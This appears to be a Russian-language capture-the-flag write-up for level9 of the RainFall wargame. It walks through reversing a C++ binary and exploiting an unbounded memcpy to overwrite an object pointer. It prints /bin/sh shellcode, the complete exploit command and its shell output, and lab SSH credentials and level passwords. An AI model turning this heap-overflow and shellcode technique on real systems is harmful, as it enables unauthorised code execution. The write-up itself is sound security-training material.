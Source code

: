 ### level9
0. Заходим под пользователем: `ssh level9@172.16.188.131 -p 4242` / `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`

1. Запускаем `gdb` и смотрим на доступные функции:
```
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```
Видим артефакты ООП, предположительно исходник был на c++

2. Соберем наш вариант исходника
3. Заметрим функцию `memcpy` причем она не защищена размером доступного буфера 100байт
4. Дальше видим что у нас дергается `*%edx` если пробежимся по указателям увидем что фактически дергается оператор + для this = 2 экземпляр класса, а именно:
    * `mov    0x10(%esp),%eax` -> тут у нас лежит ссылка на адрес 2 экз класса N (`0x804a078`)
    * `mov    (%eax),%eax` -> тут перейдем по адресу во 2 экз класса N возьмем первые 4 байта и сохраним в `eax` (`0x48	0x88	0x04	0x08`)
    * `mov    (%eax),%edx` -> возьмем значение адреса `0x08048848` и поместим в `eax` (`0x3a	0x87	0x04	0x08`)
    * получим из значения `edx` адрес и дернем его (`0x084873a`)
5. Если посмотреть на то как в памяти лежат куски классов, то увидем что между ними 4 байта и мы можем при копировании памяти затереть значение в указателе на экземпляр 2 класса и потом дернуть shellcode

> Ищем shellcode /bin/sh - гуглим в интернете
> https://shell-storm.org/shellcode/files/shellcode-827.php
```
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		            "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
```

6.
    * Залазим на указатель 2ого класса и переписываем его значение на `0x804a00c` это адрес на начало буффера
    * Начало буфера с адресом `0x804a00c` тоже будет подлежать разименованию и тут нам нужно подложить адрес на шелкод, то есть на следующие 4 байта -> `0x804a01c`
    * С адреса `0x804a01c` будем писать на shellcode остальне забьем пустошкой.

7. Прохождение:

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```


* Слепок функции `main`

```
$eax = 0x804a078
$ebx = 0x804a078	| 134520952

...
argv[0] = $ebp + 12 = $ebp + 0xc
argc = $ebp + 8
$eip = $ebp + 4
$ebp ->

$esp + 0x1c(28)    | 0x804a008 <- ссылка на 1 экз
$esp + 0x18(24)    | 0x804a078 <- ссылка на 2 экз
$esp + 0x14(20)    | 0x804a008
$esp + 0x10(16)    | 0x804a078



$esp + 4            | 0x804a008
$esp = $ebp - 32    | 0x804a078

```

* Слепок конструктора `N(int n)`
```
$eax = $ebp + 8 = 0x804a008
$edx = 5
param_2 = $ebp + 12
param_1 = $ebp + 8
$eip = $ebp + 4
$ebp = $esp

```

* Слепок метода `setAnnotation(char *str)`
```
$eax = ebp + 8 = (abcd)
$edx = 0x804a008 = 0x804A00C
ebp

esp + 8 = strlen(str)
esp + 4 = str
esp = ebp - 24 = 0x804a00c
```



* Расположение классов в памяти
```
----------------------------------------------------------------
Экземпляр 1 класса N  ->
start -> 0 <- eax | 0x804a008 = 134520840
start.annotation 4 = 0x804a00c
start.annotation + 4 = 0x804a010
annotation[100]


104 - 108 = 5
finish -> 108     | 0x804A074 = 134520840 + 108 = 134520948
----------------------------------------------------------------
gap (4байтов)
----------------------------------------------------------------
Экземпляр 2 класса N  ->
start -> 0 <- eax | 0x804a078 = 134520952




104 - 108 = 4
finish -> 108     | 0x804A0E4 = 134520952 + 108 = 134521060
```
